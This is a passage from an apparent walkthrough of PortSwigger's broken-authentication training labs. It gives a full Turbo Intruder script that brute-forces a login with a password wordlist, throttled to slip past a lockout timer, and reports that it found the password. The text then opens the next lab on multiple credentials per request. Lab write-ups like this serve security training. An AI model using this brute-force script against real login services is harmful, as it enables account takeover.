 lets try **examples/ratelimit.py** (its might be helpfull to avoid the 1 minute pendelty...):
```python
# Author: https://github.com/abiwaddell
# Throttle the attack per-request, and per X requests.
# Full description at https://github.com/abiwaddell/Run-Pause-Resume
import time

# Parameters to configure
triedWords=20
timeMins=0
timeSecs=5
throttleMillisecs=200

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           pipeline=False,
                           engine=Engine.BURP
                           )

    for i in range(3, 8):
        engine.queue(target.req, randstr(i), learn=1)
        engine.queue(target.req, target.baseInput, learn=2)

    secs=timeMins*60+timeSecs
    n=0
    for word in open('/home/kali/Documents/Portswigger_labs/Broken Authentication /passwords.txt'):
        time.sleep(throttleMillisecs/1000)
        engine.queue(target.req, word.rstrip())
        n+=1
        if(n==triedWords):
            time.sleep(secs)
            n=0

def handleResponse(req, interesting):
    if interesting:
        table.add(req)
```

 run the example as is to get a baseline - surprisingly we get only 1 response in the table - and its the password! - 
 
 # brute forced!

 
 
 # 5. Lab: Broken brute-force protection, multiple credentials per request
 https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request
